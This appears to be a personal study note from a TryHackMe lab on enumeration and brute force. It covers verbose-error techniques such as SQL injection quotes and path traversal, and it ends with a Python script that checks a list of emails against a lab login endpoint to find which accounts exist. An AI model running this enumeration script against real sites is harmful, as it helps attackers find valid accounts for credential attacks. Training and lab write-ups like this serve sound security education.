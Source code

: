 
📅 **Date**: 23 February 25  
📂 **Category**: TryHackMe 
📝 **Status**: Completed  
🔒 **Room**: enum bruteforce
🏷️ Tags: #tryhackme #tryhackme/learn

---
# Enumeration & Brute Force:

supplied password doesn't satisfy the policy defined in the **pattern** variable
```php
<?php
$password = $_POST['pass']; // Example1
$pattern = '/^(?=.*[A-Z])(?=.*\d)(?=.*[\W_]).+$/';

if (preg_match($pattern, $password)) {
    echo "Password is valid.";
} else {
    echo "Password is invalid. It must contain at least one uppercase letter, one number, and one symbol.";
}
?>
```

### Common Places to Enumerate:
- [ ] **Registration Pages**
- [ ] **Password Reset Features**
- [ ] **Verbose Errors**
- [ ] **Data Breach Information**

### Verbose Error
- **Internal Paths**: Like a map leading to hidden treasure, these reveal the file paths and directory structures of the application server which might contain configuration files or secret keys that aren't visible to a normal user.
- **Database Details**: Offering a sneak peek into the database, these errors might spill secrets like table names and column details.
- **User Information**: Sometimes, these errors can even hint at usernames or other personal data, providing clues that are crucial for further investigation

### Inducing Verbose Errors
1. **Invalid Login Attempts**: Intentionally entering incorrect usernames or passwords, attackers can trigger error messages that help distinguish between valid and invalid usernames. For example, entering a username that doesn’t exist might trigger a different error message than entering one that does, revealing which usernames are active.
    
2. **SQL Injection**: This technique involves slipping malicious SQL commands into entry fields, hoping the system will stumble and reveal information about its database structure. For example, placing a single quote ( `'`) in a login field might cause the database to throw an error, inadvertently exposing details about its schema.
    
3. **File Inclusion/Path Traversal**: By manipulating file paths, attackers can attempt to access restricted files, coaxing the system into errors that reveal internal paths. For example, using directory traversal sequences like `../../` could lead to errors that disclose restricted file paths.
    
4. **Form Manipulation**: Tweaking form fields or parameters can trick the application into displaying errors that disclose backend logic or sensitive user information. For example, altering hidden form fields to trigger validation errors might reveal insights into the expected data format or structure.
    
5. **Application Fuzzing**: Sending unexpected inputs to various parts of the application to see how it reacts can help identify weak points. For example, tools like Burp Suite Intruder are used to automate the process, bombarding the application with varied payloads to see which ones provoke informative errors.

> Check the email is valid or not
> 
```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
        emails = file.readlines()

    for email in emails:
        email = email.strip()  # Remove any leading/trailing whitespace
        if email:
            response_json = check_email(email)
            if response_json['status'] == 'error' and invalid_error in response_json['message']:
                print(f"[INVALID] {email}")
            else:
                print(f"[VALID] {email}")
                valid_emails.append(email)

    return valid_emails

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <email_list_file>")
        sys.exit(1)

    email_file = sys.argv[1]

    valid_emails = enumerate_emails(email_file)

    print("\nValid emails found:")
    for valid_email in valid_emails:
        print(valid_email)
```

### Password Reset Flow Vulnerabilities
- [ ] **Email-Based Reset**
- [ ] **Security Question-Based Reset**
- [ ] **SMS-Based Reset**
